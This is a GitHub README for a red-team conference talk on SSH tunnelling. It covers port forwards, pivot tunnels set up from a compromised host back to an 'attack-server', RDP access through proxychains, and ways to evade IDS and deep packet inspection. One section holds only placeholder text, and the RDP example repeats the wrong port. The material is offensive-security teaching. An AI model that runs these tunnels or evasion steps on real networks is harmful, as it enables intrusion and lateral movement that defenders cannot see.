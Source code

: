 ## SSH Tunnels: Creating Reverse Proxies and Evading Network Detection

This repo is supplemental material for my presentation for [Red Team Village](https://redteamvillage.io) during Hackerone's Hacktivitycon2021. If you have any questions or just want to talk get in touch with me:

- [Twitter](https://twitter.com/cwolff411)
- [Discord](https://discordapp.com/users/354713402733494283)
- [LinkedIn](https://linkedin.com/in/corywolff)
- Email me at yxakl5mae@relay.firefox.com

## Abstract
SSH tunneling is a valuable component of the red teamer's toolkit when used correctly - but that's the hard part. Demystifying reverse port forwards, local port forwards, and dynamic port forwards can be a challenge for any operator. This talk will begin with the basics of SSH tunneling and then focus on ways to utilize them to create reverse proxies and evade network monitoring during an engagement. It aims to provide clarity on the use of these different port forwards and provide examples on how to use them in an offensive security scenario.

## Things to Know
Everything in this discussion is based around post-exploitation scenarios, meaning that you have already landed on a machine, escalated privileges, and are looking to move throughout the network.

### Gateway Ports
In order to access the open ports on your attack server which are then forwarded through SSH on your compromised host, you must enable Gateway Ports in the attack servers `sshd_config`. By default, SSH will only allow connections to the loopback interface on your attack server.

To enable Gateway Ports open `/etc/ssh/sshd_config` and look for the line that says `#GatewayPorts = no`. Remove the `#` and change it to yes. 

When complete, save the file and restart the SSH daemon. On Debian based systems:

`systemctl restart sshd`

## Dynamic Port Forwards
![RTV-SSH Tunnels-Dynamic Port Forward](https://user-images.githubusercontent.com/8293038/133801798-35120a05-e2cf-468c-89b7-3730d65c1a0f.png)

Opens a local port on the client. Any connections made to that port are routed through the SSH tunnel and exits on the server applicable server port depending on the application data. Good way to make a simple SOCKS proxy.

`ssh -D YOUR_LOCAL_PORT username@server`


## Local Port Forwards
![Red Team Village SSH Tunnels Local](https://user-images.githubusercontent.com/8293038/133802535-3488de3a-f2ca-4ab9-bed0-71694c090866.png)

Listens on a specified local port and forwards incoming data through SSH and out the specified remote port. Similar in nature to using a dynamic port forward, with the primary differences:
- Uses the -L flag
- With local port forwarding you can specify the remote port to be used. With dynamic port forwarding, this is handled by SSH

`ssh -L LOCAL_PORT:SELECTED_HOST:REMOTE_PORT`


## Remote Port Forwards
![Red Team Village SSH Tunnels Remote](https://user-images.githubusercontent.com/8293038/133802536-14b4f4df-e60e-4e0a-8a6f-6ddf9b29c118.png)

jkhkj

## Create Pivot Tunnels
![Red Team Village SSH Tunnel Pivot](https://user-images.githubusercontent.com/8293038/133802533-83e88f3a-dd2e-469e-80a4-74bfda580fec.png)

What if we wanted to connect to an internal host running RDP and we have credentials to log in? What if we wanted to browse internal websites? Can't use shell for GUI apps. Using a combination of a dynamic port forward and a remote port forward we can connect to our attack server and route traffic through the compromised host into the internal network.


![Red Team Village SSH Tunnel Close Up Look](https://user-images.githubusercontent.com/8293038/133802532-6270d38e-533e-4334-9e77-98b459cc371e.png)

First create a dynamic port forward on the localhost(compromised machine), then create a remote port forward using that same local port and the selected port on your attack server. You should then be able to set your proxy as your attack server and port, and traverse the internal network.

### Example: Browse Internal Websites

On the compromised host:
`ssh -D 80 -N -f username@localhost`
`ssh -R 54321:localhost:80 root@attack-server`

Using the `-N` and `-f` flags do two things. First the `-N` flag tells SSH that no commands will be sent in the session. Second, the `-f` flag tells SSH to drop to the background. This keeps our terminal clean and keeps us on the command line ready to setup our remote port forward.

You now have a proxy to use for internal port forwarding at `attack-server:54321`

Using proxychains or simply setting the proxy in your browser settings, you can now browse internal websites through your attack machine's browser.

### Example: Connect to Internal RDP Hosts

On the compromised host:
`ssh -D 3389 -N -f username@localhost`
`ssh -R 54321:localhost:80 root@attack-server`

This example is very similar to the previous example except this time you use port `3389` for RDP.

Add your attack server to `/etc/proxychains.conf`:

`socks5	attack-server	54321`

Then use proxychains with `xfreerdp` or your RDP client of choice and you can now connect to that internal host via RDP:

`proxychains xfreerdp /u:fenrir /p:password /v:HOST_IP`

## Evading Detection
Depending on the firewall and IDS/IPS in place, there are a few ways to avoid detection:

- First, try a non-traditional port like `443`. If the monitoring and firewall are basic setups, then simply using a port other than `22` will avoid detection.
- Setup an SSL tunnel to then route your SSH traffic through. SSH uses `encrypt-then-mac` whereas SSL uses `mac-then-encrypt`. Deep packet inspection will not be able to see that it's actually SSH traffic going over the wire. There are some caveats to this though, so make sure to check out the `stunnel` folder in this repo.
- When all else fails try IPv6. The transition to IPv6 has been slow and arduous. Many networks/firewalls/servers/etc support it, but the implementation is less than perfect. Everyone says they know how it all works, but they lie :)

## Fin
Thanks to [Red Team Village](https://redteamvillage.io) for having me during their Hacktivitycon event.

SSH tunnels are an excellent way to use living off the land binaries to pivot and move laterally throughout a network. It took me awhile to wrap my head around all of the options, so I hope this was helpful.

### More Info

- Check out everything you can do with SSH. It's more than just shell access. Read the [manual](https://linux.die.net/man/1/ssh).
- [sshuttle](https://github.com/sshuttle/sshuttle)